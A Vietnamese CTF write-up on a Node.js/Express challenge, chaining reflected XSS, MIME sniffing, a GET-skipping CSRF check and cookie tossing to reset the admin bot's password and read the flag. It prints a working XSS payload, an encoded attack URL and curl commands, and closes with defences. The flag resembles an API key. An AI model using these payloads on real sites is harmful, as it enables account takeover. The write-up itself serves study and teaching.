

**Description:**

I asked ChatGPT for help, and it...well, you'll see.

<!--more-->

## Mô tả bài toán

Challenge là một ứng dụng web Node.js/Express mô phỏng "Hoàng Phong Cốc". Người chơi có thể đăng ký, đăng nhập, report URL cho bot admin truy cập, và mục tiêu cuối cùng là đọc flag ở `/immortal-gate/treasure`.

Stack chính:

- Node.js 22, Express 4.21.2.
- `express-session` để quản lý session.
- `cookie-parser` để parse cookie.
- `puppeteer-core` và Chromium để chạy admin bot.
- Dữ liệu user lưu trong `Map` memory, admin password được random mỗi lần server start.

Điều kiện lấy flag: request tới `/immortal-gate/treasure` phải là `POST`, và session hiện tại phải có `username === 'admin'`.

## Table of Contents

- [I. Overview](#i-overview)
- [II. Kiến thức nền tảng](#ii-kiến-thức-nền-tảng)
- [III. Phân tích mã nguồn](#iii-phân-tích-mã-nguồn)
- [IV. Phân tích lỗ hổng](#iv-phân-tích-lỗ-hổng)
- [V. Khai thác](#v-khai-thác)
- [VI. Thảo luận](#vi-thảo-luận)

## I. Overview

Ứng dụng có các chức năng chính:

- Đăng ký và đăng nhập tài khoản.
- Admin bot tự động đăng nhập bằng tài khoản `admin`, sau đó truy cập URL do user report.
- Endpoint `/immortal-gate/check` in lại tham số `name`.
- Endpoint `/cultivation/password` thay đổi password của user đang đăng nhập.
- Endpoint `/immortal-gate/treasure` trả flag nếu user hiện tại là admin.

Sơ đồ source quan trọng:

```text
public/
|-- Dockerfile
|-- docker-compose.yml
`-- deploy/
    |-- app.js              # cấu hình Express, session, middleware
    |-- bot.js              # Puppeteer admin bot
    |-- config.js           # FLAG, admin password, users Map
    |-- middleware.js       # CSRF protection dựa trên Sec-Fetch-*
    |-- routes.js           # các route chính và bug
    |-- utils.js
    `-- views/templates.js
```

## II. Kiến thức nền tảng

### Fetch Metadata Request Headers

Browser hiện đại tự gắn các header `Sec-Fetch-*` vào request. Server trong bài dùng hai header này:

- `Sec-Fetch-Site`: cho biết request là `same-origin`, `same-site`, `cross-site`, ...
- `Sec-Fetch-User: ?1`: thường chỉ xuất hiện với navigation được kích hoạt bởi thao tác người dùng.

Ý tưởng phòng thủ của app là chặn request không có `Sec-Fetch-User: ?1`. Tuy nhiên middleware lại bỏ qua toàn bộ request `GET`, nên nếu một endpoint thay đổi trạng thái bằng `GET` thì có thể bị bypass.

### MIME Sniffing

Nếu response không có `Content-Type` rõ ràng, browser có thể đoán kiểu nội dung dựa trên body. Trong challenge, `/immortal-gate/check` dùng `res.write()` và `res.end()`, không dùng `res.send()`, nên response không được Express gắn `Content-Type` tự động. Nếu body bắt đầu giống HTML, Chromium có thể render như HTML và thực thi `<script>`.

### Cookie Tossing

Cookie `csrf_token` thật được set với `HttpOnly`, nên JavaScript không đọc được giá trị của nó. Nhưng `HttpOnly` không cấm JavaScript tạo cookie mới cùng tên:

```javascript
document.cookie = "csrf_token=123; path=/cultivation/password";
```

Khi request đến `/cultivation/password`, cookie có path cụ thể hơn sẽ được gửi trước. `cookie-parser` parse cookie vào object và giữ giá trị đầu tiên cho cùng một key, nên backend sẽ thấy `csrf_token=123` thay vì token thật ở path `/`.



Đọc thêm ở [đây](https://www.rfc-editor.org/rfc/rfc6265.html#section-5.4)

## III. Phân tích mã nguồn

### A. `app.js`: middleware và session

```javascript
app.use(express.urlencoded({ extended: false }));
app.use(express.static('public'));
app.use(cookieParser());
app.use(
  session({
    name: 'connect.sid',
    secret: SESSION_SECRET,
    resave: false,
    saveUninitialized: false,
    cookie: {
      httpOnly: true,
      path: '/',
      sameSite: 'strict', // <- session chỉ nên đi trong same-site/same-origin context
    },
  }),
);

app.use(csrfProtection);
app.use('/', routes);
```

App chỉ parse `application/x-www-form-urlencoded`, không có `express.json()`. Với request `GET`, `req.body` vẫn là object rỗng do `express.urlencoded()` tạo ra.

Session cookie có `sameSite: 'strict'`. Vì vậy payload cần chạy trên cùng origin của app, vì nếu bot vào domain ngoài thì session admin sẽ không được gửi cho app.

### B. `bot.js`: admin bot

```javascript
await page.goto(`${BASE_URL}/immortal-gate/sign-in`, { waitUntil: 'domcontentloaded' });
await page.type('input[name="username"]', 'admin');
await page.type('input[name="password"]', ADMIN_PASSWORD);

await Promise.allSettled([
  page.waitForNavigation({ waitUntil: 'domcontentloaded', timeout: 5000 }),
  page.click('#submitBtn'),
]);

await page.goto(url, { waitUntil: 'domcontentloaded', timeout: 5000 }); // <- truy cập URL user report
```

Bot đăng nhập admin trước, sau đó truy cập URL do user submit. Đây là điều kiện để reflected XSS chạy trong browser đang có session admin.

### C. `middleware.js`: CSRF protection

```javascript
function csrfProtection(req, res, next) {
  const secFetchSite = req.get('Sec-Fetch-Site');
  const secFetchUser = req.get('Sec-Fetch-User');
  const method = req.method;

  if (method === 'GET') {
    return next(); // <- bỏ qua toàn bộ GET
  }

  if (secFetchSite !== undefined && secFetchUser !== '?1') {
    return res.send(alertBack('no hack'));
  }

  return next();
}
```

Middleware giả định `GET` là safe method. Giả định này chỉ đúng nếu mọi endpoint `GET` không thay đổi trạng thái. Trong source này, giả định đó bị phá vỡ ở `/cultivation/password`.

### D. `routes.js`: các endpoint quan trọng

| Route | Method thực tế | Auth | Vai trò |
| --- | --- | --- | --- |
| `/immortal-gate/sign-in` | `GET/POST` qua `router.all` | Không | Đăng nhập, set session và `csrf_token` |
| `/immortal-gate/sign-up` | `GET/POST` qua `router.all` | Không | Đăng ký user mới |
| `/immortal-gate/report` | `GET/POST` qua `router.all` | Có session | Gửi URL cho admin bot |
| `/immortal-gate/check` | Mọi method qua `router.all` | Không bắt buộc | Sink reflected XSS |
| `/cultivation/password` | Mọi method qua `router.all` | Có session | Đổi password user hiện tại |
| `/immortal-gate/treasure` | Chỉ chấp nhận `POST` | Admin | Trả flag |

#### Đăng nhập và CSRF cookie

```javascript
if (users.get(username) === password) {
  res.cookie('csrf_token', crypto.randomBytes(16).toString('hex'), {
    httpOnly: true,
    path: '/',
    sameSite: 'strict',
  });
  req.session.username = username;
  return res.redirect('/');
}
```

Token CSRF được lưu trong cookie `HttpOnly`. Thiết kế này giống double-submit cookie, nhưng không bind token với session server-side.

#### Reflected XSS ở `/immortal-gate/check`

```javascript
function santi(str) {
  const tag = str.match(/<([^>]*)>/); // <- chỉ lấy tag đầu tiên

  if (tag && /[a-zA-Z]/.test(tag[1])) {
    return 'no hack';
  }

  return str;
}

router.all('/immortal-gate/check', (req, res) => {
  const name = req.query.name || req.session.username || '';
  res.write(`${santi(decodeURIComponent(String(name)))}, hello`); // <- ghi thẳng vào response
  res.end(); // <- không set Content-Type rõ ràng
});
```

Filter chỉ kiểm tra tag đầu tiên trong input. Nếu tag đầu tiên không có chữ cái, ví dụ `<!---->`, payload phía sau sẽ không bị kiểm tra.

#### Đổi password ở `/cultivation/password`

```javascript
router.all('/cultivation/password', (req, res) => {
  const username = req.session?.username;
  const csrfToken = req.cookies.csrf_token;

  if (username === undefined) {
    return res.redirect('/immortal-gate/sign-in');
  }

  if (req.headers['x-csrf-token'] !== csrfToken) {
    return res.send(alertBack('CSRF blocked'));
  }

  const newPassword = req.body.new_password || ''; // <- GET không có body field này, nên thành ''
  users.set(username, newPassword); // <- thay đổi password

  return res.send(alertBack('Password changed'));
});
```

Route dùng `router.all`, nên `GET /cultivation/password` cũng đi vào logic đổi password. Trong `templates.js` có hàm `renderChangePassword`, nhưng route này không gọi hàm đó khi `GET`; nó xử lý đổi password luôn.

#### Flag ở `/immortal-gate/treasure`

```javascript
router.all('/immortal-gate/treasure', (req, res) => {
  if (req.method !== 'POST') return res.redirect('/'); // <- bắt buộc POST

  const username = req.session.username;
  if (username !== 'admin') return res.redirect('/');

  return res.send(renderFlag(FLAG));
});
```

Sau khi chiếm được tài khoản admin, cần gửi `POST` tới endpoint này. Click link trên homepage chỉ là `GET`, sẽ bị redirect về `/`.

## IV. Phân tích lỗ hổng
Chuỗi khai thác tóm tắt:

```text
Reflected XSS
    |
    v
JavaScript chạy trong origin của app trên browser admin bot
    |
    v
Ghi cookie csrf_token giả theo path /cultivation/password
    |
    v
Fetch GET /cultivation/password kèm x-csrf-token trùng cookie giả
    |
    v
Password admin bị đổi thành chuỗi rỗng
    |
    v
Đăng nhập admin với password rỗng và POST /immortal-gate/treasure
```

Chuỗi lỗi gồm bốn mắt xích:

```text
+------------------------+     +-----------------------+
| Weak XSS sanitizer     | --> | Missing Content-Type  |
+------------------------+     +-----------------------+
             |                            |
             v                            v
+------------------------+     +-----------------------+
| Cookie tossing CSRF    | <-- | GET changes password  |
+------------------------+     +-----------------------+
             |
             v
      Admin password = ""
```

### 1. Reflected XSS do sanitizer chỉ kiểm tra tag đầu

Vị trí: `/immortal-gate/check`.

Payload có thể bắt đầu bằng comment HTML:

```html
<!----><script>alert(1)</script>
```

Regex `/<([^>]*)>/` chỉ match `<!---->`. Nội dung trong tag đầu là `!----`, không có chữ cái, nên `santi()` trả lại nguyên input. Phần `<script>` phía sau được giữ lại.

### 2. Missing `Content-Type` tạo điều kiện cho MIME sniffing

Vị trí: cùng endpoint `/immortal-gate/check`.

`res.write()` và `res.end()` không gắn `Content-Type` như `res.send()`. Khi bot dùng Chromium truy cập URL, response có thể bị sniff thành HTML nếu body bắt đầu bằng HTML-like token. Đây là lý do payload cần đặt `<!---->` ở đầu response.

### 3. CSRF bypass do `GET` được bỏ qua

Vị trí: `csrfProtection()`.

Middleware bỏ qua mọi request `GET`, nhưng `/cultivation/password` lại chấp nhận mọi method. Request từ `fetch("/cultivation/password", ...)` mặc định là `GET`, nên vượt qua Fetch Metadata check.

### 4. Double-submit CSRF yếu do cookie tossing

Vị trí: `/cultivation/password`.

Server so sánh header với cookie:

```javascript
req.headers['x-csrf-token'] !== req.cookies.csrf_token
```

Nếu XSS tạo được cookie `csrf_token=123` với path `/cultivation/password`, request đến route này sẽ gửi cookie giả trước cookie thật. Header `x-csrf-token: 123` khi đó khớp với `req.cookies.csrf_token`.

Tác động cuối: vì request là `GET`, không có `new_password`, code đặt password mới thành `''`.

## V. Khai thác

### A. Luồng khai thác tổng quan


### B. Payload XSS

Payload gốc:

```html
<!----><script>
document.cookie = "csrf_token=123; path=/cultivation/password";
fetch("/cultivation/password", {
  headers: { "x-csrf-token": "123" }
});
</script>
```

Giải thích:

| Thành phần | Mục đích |
| --- | --- |
| `<!---->` | Tag đầu tiên không có chữ cái, bypass `santi()` và giúp response giống HTML |
| `document.cookie = ...` | Tạo cookie `csrf_token` attacker kiểm soát |
| `path=/cultivation/password` | Làm cookie giả ưu tiên khi request tới route đổi password |
| `fetch("/cultivation/password", ...)` | Gửi `GET` same-origin bằng session admin |
| `x-csrf-token: 123` | Khớp với cookie giả đã tạo |

URL để report cho bot:

```text
http://localhost:3000/immortal-gate/check?name=%3C!----%3E%3Cscript%3Edocument.cookie%3D%22csrf_token%3D123%3B%20path%3D%2Fcultivation%2Fpassword%22%3Bfetch(%22%2Fcultivation%2Fpassword%22%2C%7Bheaders%3A%7B%22x-csrf-token%22%3A%22123%22%7D%7D)%3B%3C%2Fscript%3E
```

Nếu target không chạy trên localhost, thay host theo `BASE_URL` của instance challenge. Điểm quan trọng là URL phải cùng origin với app để bot gửi session admin. `127.0.0.1` khác `localhost`

### C. Đăng nhập admin với password rỗng

Sau khi bot đã visit payload, password của admin sẽ là chuỗi rỗng. Form login trên UI có `required` ở password input, nên có hai cách:

- Xóa attribute `required` bằng DevTools và submit form.
- Gửi request trực tiếp.

Ví dụ bằng curl:

```bash
curl -i -c cookies.txt -b cookies.txt \
  -X POST 'http://localhost:3000/immortal-gate/sign-in' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data 'username=admin&password='
```

Nếu đăng nhập thành công, server redirect về `/` và set session admin.

### D. Lấy flag

Endpoint flag yêu cầu `POST`, nên dùng request riêng:

```bash
curl -i -b cookies.txt \
  -X POST 'http://localhost:3000/immortal-gate/treasure'
```

Response sẽ render flag. Trong source/docker-compose hiện tại, flag placeholder là `KMACTF{FAKE_FLAG}`.

## VI. Thảo luận

### Vì sao không cần đọc CSRF token thật?

Cookie `csrf_token` thật có `HttpOnly`, nên XSS không đọc được. Nhưng backend không kiểm tra token có được server phát hành hay có gắn với session hay không. Backend chỉ yêu cầu cookie và header bằng nhau. Vì vậy attacker chỉ cần tạo một cookie mới cùng tên và gửi header trùng với cookie đó.

### Vì sao `router.all` là lỗi nghiêm trọng ở đây?

`csrfProtection()` bỏ qua `GET` vì nó xem `GET` là safe method. Nếu `/cultivation/password` chỉ nhận `POST`, request `fetch()` không có `Sec-Fetch-User: ?1` sẽ bị middleware chặn. Nhưng vì route dùng `router.all`, `GET` cũng thay đổi password, làm assumption của middleware mất hiệu lực.

### Các hướng phòng thủ

- Escape output ở `/immortal-gate/check`, hoặc trả về `text/plain`.
- Không tự viết sanitizer HTML bằng regex.
- Thêm header `X-Content-Type-Options: nosniff`.
- Chỉ cho `/cultivation/password` nhận `POST`, và route `GET` chỉ render form.
- Không dùng double-submit cookie nếu token không được bind với session server-side.
- Dùng CSRF middleware chuẩn, token sinh server-side và verify theo session.
- Không để endpoint thay đổi trạng thái fallback password thành `''` khi thiếu input.

## Flag

> Flag: ***KMACTF{sk-proj-7hK92bQwXn4MzP8rTaYvLcE3sDfGhJkLmNpQrStUvWx}***